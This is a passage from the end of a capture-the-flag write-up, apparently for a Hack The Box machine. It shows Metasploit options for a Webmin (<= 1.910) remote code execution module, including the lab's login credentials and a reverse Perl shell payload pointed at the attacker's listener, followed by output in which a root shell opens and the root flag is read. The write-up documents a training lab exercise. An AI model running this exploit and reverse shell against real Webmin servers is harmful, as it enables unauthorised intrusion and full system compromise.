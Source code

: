     :::text
    msf5 exploit(linux/remote/46984) > show options

    Module options (exploit/linux/remote/46984):

      Name       Current Setting  Required  Description
      ----       ---------------  --------  -----------
      PASSWORD   computer2008     yes       Webmin Password
      Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
      RHOSTS     10.10.10.160     yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
      RPORT      10000            yes       The target port (TCP)
      SSL        true             no        Negotiate SSL/TLS for outgoing connections
      TARGETURI  /                yes       Base path for Webmin application
      USERNAME   Matt             yes       Webmin Username
      VHOST                       no        HTTP server virtual host


    Payload options (cmd/unix/reverse_perl):

      Name   Current Setting  Required  Description
      ----   ---------------  --------  -----------
      LHOST  10.10.14.13      yes       The listen address (an interface may be specified)
      LPORT  4444             yes       The listen port


    Exploit target:

      Id  Name
      --  ----
      0   Webmin <= 1.910

Then we run the script. We are directly root on the box and get the flag.

    :::text
    msf5 exploit(linux/remote/46984) > run
    [*] Started reverse TCP handler on 10.10.14.13:4444
    [+] Session cookie: a2ff4450e3a344159ab1fd464db52855
    [*] Attempting to execute the payload...
    [*] Command shell session 1 opened (10.10.14.13:4444 -> 10.10.10.160:32916) at 2019-11-20 14:39:02 +0100

    id
    uid=0(root) gid=0(root) groups=0(root)
    cat root.txt
    cat /root/root.txt
    a2577<redacted>

# Wrapping up

This box was not the most interesting one as everything is pretty straight
forward. Moreover the name
suggested me that there will be some SMTP (or IMAP) involved. I am a bit
disappointed.

